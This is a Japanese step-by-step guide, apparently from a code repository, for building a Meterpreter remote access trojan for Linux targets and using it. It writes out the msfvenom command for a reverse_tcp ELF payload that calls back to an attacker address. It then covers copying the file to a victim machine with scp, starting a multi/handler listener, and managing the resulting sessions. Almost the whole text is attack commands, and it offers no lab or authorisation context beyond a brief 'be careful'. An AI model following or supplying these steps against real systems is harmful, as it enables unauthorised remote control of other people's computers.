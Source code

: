 ### MeterpreterのRATファイル作成及び使用方法

以下は、Linuxターゲットに対する Meterpreter の RAT (Remote Access Trojan) ファイルの作成と使用の流れです。手順に従って実行することで、ターゲットシステムに対してリモートアクセスを確立することができます。

#### 1. RATファイルの作成
まず、`msfvenom` を使用して、ターゲットに適した Meterpreter のペイロードを含むRATファイルを作成します。この例ではLinuxターゲット用に `.elf` ファイルを作成していますが、ターゲットに応じてファイル名や拡張子を変更します。

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.99 -f elf -o meterpreter
```
- `LHOST` : 攻撃者側のIPアドレス（ここでは `10.0.0.99`）
- `-f elf` : 出力ファイル形式として ELF を指定
- `-o meterpreter` : 出力ファイル名を `meterpreter` に設定

#### 2. ファイルの権限変更
作成したRATファイルに実行権限を付与します。

```bash
chmod u+x meterpreter
```

#### 3. ファイルの転送
`scp` コマンドを使用して、作成したRATファイルをターゲットマシンに転送します。

```bash
scp meterpreter johndoe@192.168.1.3:/home/johndoe/meterpreter
```

#### 4. Metasploitの設定と起動
次に、`msfconsole` を起動して Metasploit フレームワークを設定します。

```bash
msfconsole
```

設定が完了したら、ペイロードとリスナーを設定します。

```bash
set LHOST 10.0.0.99
set payload linux/x86/meterpreter/reverse_tcp
```

続いて、`multi/handler` エクスプロイトを使用してリスナーを起動します。

```bash
use exploit/multi/handler
exploit
```

リスナーが起動すると、攻撃者のマシンで待機状態になります。

#### 5. ターゲットマシンでRATファイルを実行
ターゲットユーザーがRATファイルを実行すると、攻撃者側でセッションが開始され、Meterpreterのコンソールが表示されます。

```bash
./meterpreter
```

#### 6. Meterpreterセッションの管理
セッションをバックグラウンドで実行するには以下のコマンドを使用します。

```bash
meterpreter > background
```

現在アクティブなセッションを確認するには、次のコマンドを実行します。

```bash
sessions
```

特定のセッションに戻るには、セッションIDを指定して以下のコマンドを実行します。

```bash
sessions -i <ID>
```

これで、ターゲットシステムに対するリモート操作が可能になります。注意して操作を行ってくだささい。